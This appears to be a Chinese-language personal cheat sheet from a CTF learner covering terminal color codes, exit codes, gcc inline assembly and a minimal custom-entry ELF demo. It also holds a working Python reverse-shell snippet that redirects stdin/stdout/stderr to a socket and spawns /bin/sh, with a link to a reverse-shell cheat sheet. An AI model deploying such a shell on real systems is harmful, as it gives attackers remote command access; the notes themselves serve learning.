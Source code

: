 "\033[{};{};{}m n132 \033[0m".format(字类型,字颜色,背景颜色)
sample:
"\033[1;31;40m n132>>> \033[0m"

## echo $?
用于输出上一个程序的退出码

## gcc 内嵌汇编规则
`https://akaedu.github.io/book/ch19s05.html`

## ld:自定义入口 arch
`ld -m elf_i386 -static -e n132 -o nier tiny.o`
one demo
```c
char str[5]="nier\n";
void say()
{
    asm("movl %%eax,%%ecx\n\t"
        "movl $4,%%eax \n\t"
        "movl $1,%%ebx \n\t"
        "movl $5,%%edx \n\t"
        "int $0x80 \n\t"
        ::"r"(str):"ebx","ecx","edx"
        );
}
void exit()
{
    asm(
        "movl $1,%eax\n\t"
        "int $0x80\n\t"
        );
}
int n132()
{
    say();
    exit();
    return 0;
}
```
## python socket+dup弹shell
```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1",12345))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh",'-i'])
```
做kidding的时候看到的...原来还可以复制stdXXX到socket


[1]: https://blog.csdn.net/chdhust/article/details/8495921
[2]: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
[3]: https://ctf-wiki.github.io/ctf-wiki/pwn/linux/arm/environment/
[4]: https://www.cs.utexas.edu/~bismith/test/syscalls/syscalls64_orig.html
[5]: http://syscalls.kernelgrok.com/
[6]: https://github.com/geohot/qira/pull/203
[7]: https://zhuanlan.zhihu.com/p/31918676
[8]: https://www.jianshu.com/p/3a2df9b7c353
[9]: https://www.cyberpunk.rs/ghidra-software-reverse-engineering-framework